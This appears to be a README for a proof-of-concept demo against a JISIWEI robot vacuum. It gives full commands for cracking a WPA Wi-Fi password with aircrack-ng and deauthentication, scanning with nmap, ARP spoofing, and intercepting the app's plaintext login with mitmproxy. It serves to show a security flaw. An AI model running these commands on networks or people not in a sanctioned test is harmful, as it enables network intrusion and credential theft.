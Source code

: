 # HOW TO DEMO

## Setup
A computer with these tools have to be fixed:
- **Android Smartphone**, with the JISIWEI application installed. iOS app can be found here: https://apps.apple.com/us/app/极思维机器人/id937665306 and the APK file for the Android app is found in this repository.
- **USB cable**, for connecting smarphone to PC
- **scrcpy**, for showing the Android screen on the PC
- **Aircrack-ng**, for cracking the wifi-password
- **nmap**, used for finding devices in network
- **arpspoof**, needed for transparant proxy
- **mitmproxy**, proxy used for looking at HTTP packets
- **Wireless Network Adapter**, needed for cracking the wifi and connecting to wifi
- **Wireless Router**, with relatively easy password for dictionary attack
- **JISIWEI Vacuum Cleaner Robot**

The computer **Dell OptiPlex 7070** should have everything installed. If you use the **TP-Link High-Gain 150Mbps** wireless adapter, you won't have to install any necessary drivers.

The wired internet connection has to be turned off. The robot should be up and running and connected to the Wi-Fi. The Smartphone has to be connected to the same Wi-Fi and connected to the computer with the USB Cable. 

## Step 1
Use Aircrack-ng with the wireless network adapter to crack the password to the router.

But first we have to set the wireless adapter to monitor mode, Either run the script **monitor_mode.sh** or do the following:

```bash
airmon-ng check kill
rfkill unblock all
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

We can then check what networks are available in the area:

```bash
airodump-ng wlan0
```
![](screenshots/airodump.png)

Take the BSSID and channel from the WIFI we will hack and do the following:
```bash
airodump-ng -c [channel for wifi] --bssid [BSSID for wifi] -w psk wlan0
```
![](screenshots/getting_packets.png)

We will now wait on a WPA handshake, we could make this process faster by taking a BSSID of a host that is connected to the wifi.
Easiest way to accomplish this is by having your smartphone connected to the wifi and try to surf around on the internet and have airplay running:

```bash
aireplay-ng -0 0 -a [BSSID of wifi] -c [BSSID of host] wlan0
```
![](screenshots/aireplay.png)
![](screenshots/handshake.png)

When we have the handshake you can terminate the previous programs. 
Now use aircrack-ng with a password list and get the password.

```bash
aircrack-ng -w rockyou.txt -b [BSSID of wifi] psk*.cap
```
![](screenshots/aircrack.png)

Now you can set the mode for the wireless adapter to Auto and then login to the wifi. Either run the script auto_mode.sh or do the following:

```bash
systemctl start NetworkManager
ifconfig wlan0 down
iwconfig wlan0 mode Auto
ifconfig wlan0 up
```

## Step 2
Login to the wifi and then use Nmap to see the devices in the network.
```bash
nmap -sn 192.168.1.0/24
```
Check ports on all the devices found in the network. We will need the IP of the router and the phone.


## Step 3
In order to make the following work, do the following, make sure that the computer isn't hooked up through wired internet connect and then either run the script **spoof.sh** or do all the steps down below.

First we will setup port forwarding before using arpspoof and mitmproxy:

```bash
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

Then open make sure to have three terminals opened and each command in separate terminals:

```bash
arpspoof -i wlan0 -t [PHONE_IP] [ROUTER_IP]
arpspoof -i wlan0 -t [ROUTER_IP] [PHONE_IP] 
```

Start mitmproxy in transparent mode in the third terminal and wait till someone logs in to the robot on the same network.

```bash
mitmproxy --mode transparent --showhost
```
![](screenshots/spoof.png)
Use the smartphone and log in to the JISIWEI application while on the same network. Use the credentials:

username: hackmanhacker8@gmail.com

password: proofofconcept

![](screenshots/mitmproxy.png)

When you have logged in you can see the credentials in the HTTP request. Meaning that the attacker now has access to those credentials and is now able to login to the app and controll the vacuum cleaner robot.

## Step 4

Login to the application using the smartphone showing that it is the same credentials and use the functions of the application.
The attacker could then login whenever they pleases without being in the network.
Using an android device you could display the screen of the phone on a the bigger screen. The "USB-Debug" has to be allowed, which can be found in the developer settings on the smarthphone. Use the following tool: 
```bash
scrcpy 
```
